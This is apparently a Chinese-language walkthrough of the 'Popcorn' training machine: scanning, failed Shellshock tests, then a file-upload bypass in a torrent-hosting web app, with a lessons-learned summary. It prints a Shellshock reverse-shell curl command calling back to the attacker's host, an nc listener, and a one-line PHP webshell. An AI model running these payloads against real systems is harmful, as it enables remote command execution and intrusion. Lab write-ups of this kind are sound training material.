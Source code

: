 ```yaml
---
title: Popcorn（文件上传）
categories:
- training
tags:
- training
---
```

Popcorn
===

## scan
```
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
PHP/5.2.10-2ubuntu6.10
```
## web
先检查破壳漏洞，然后检查/test目录泄露的信息
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/1.PNG)
```
获取的信息：
Server Administrator 
webmaster@localhost 

web路径：/etc/apache2
	/var/www/test.php 

服务：/var/run/mysqld/mysqld.sock 

http://10.10.10.6/test/index.php

http://10.10.10.6/torrent/database/
-- Database: `torrenthoster`
```
burp scanner扫描了一遍，发现了几个漏洞，好像不能利用
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/12.PNG)

#### trying1: 低版本openssh

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/2.PNG)

#### trying2: 破壳漏洞检查

[CVE-2014-6271](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
```
searchsploit shellshock

PHP < 5.6.2 - 'Shellshock' Safe Mode / Disable Functions Bypass / Command Injection                         | exploits/php/webapps/35146.txt
Bash CGI - 'Shellshock' Remote Command Injection (Metasploit)                                               | exploits/cgi/webapps/34895.r
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/3.PNG)
没有任何反应

#### trying3: 破壳漏洞检查2
http://10.10.10.6/test/
```
nc -lnvp 666

curl –H 'x: () { :;}; /bin/bash –i >& /dev/tcp/10.10.14.13/666 0>&1' http://10.10.10.6/test/
```
同样失败

#### trying4: 发现web目录
被漏洞扫描软件给坑了。不管有没有破壳漏洞，先扫描一下目录

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/4.PNG)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/5.PNG)

exploit db上搜索一下Torrent Hoster。

[Torrent Hoster Remont Upload Exploit](https://www.exploit-db.com/exploits/11746)

 sql注入检测被网站黑名单发现
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/11.PNG)

做信息搜集发现的信息：
```
MySQL db        http://10.10.10.6/torrent/comment
```
#### trying5: 准备上传

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/6.PNG)
先随便上传一个txt，提示说明必须要是torrent文件，但是我们想要上传php类型webshell。

1. 上传torrent文件，burp---send to repeater，得到文件类型等信息。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/7.PNG)

2. 
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/8.PNG)
主面板获得上传的文件的路径。
http://10.10.10.6/torrent/torrents.php?mode=download&id=06aceda1226df400b0506aa813688f45309318a6

3.
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/9.PNG)
尝试替换为php反弹脚本，提示不是有效的torrent文件。

4. 

查看msfvenom能否生成torrent类型的载荷。

`msfvenom -l formats | grep torrent`

5.尝试在上传torrent时，同时上传一句话木马。
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/10.PNG)
生成了1.PNG.torrent

<?php @system($_POST["cmd"])?>

6.尝试在修改screenshot，上传反弹木马
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/13.PNG)
先注册账号，然后登陆。

随便上传一个torrent，然后点击edit the torrent。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/14.PNG)

替换图片内容为php-reverse-shell，名称后缀改为6.png.php

nc监听本地地址。

访问上传的路径：
![15](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/15.PNG)

上传php反弹webshell失败，权限不够。

7. 和上一步差不多，上传一句话，而不是php反弹脚本
![16](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/16.PNG)

![17](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/17.PNG)

## 总结：

以后遇到这种情况，测试方法

- 某cms，先查找以往漏洞。
- 确定输入点，挨个测试一遍。（当时一直在测torrent上传，没想到漏洞在更改图片那里）
- 上传漏洞需要找到上传的文件的路径。
一般要结合**路径遍历漏洞**。例如在这个cms，如果像下图一样，只是说明上传成功了，但是没有给出上传的地址（一般来说也没有必要）。

![18](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/18.PNG)

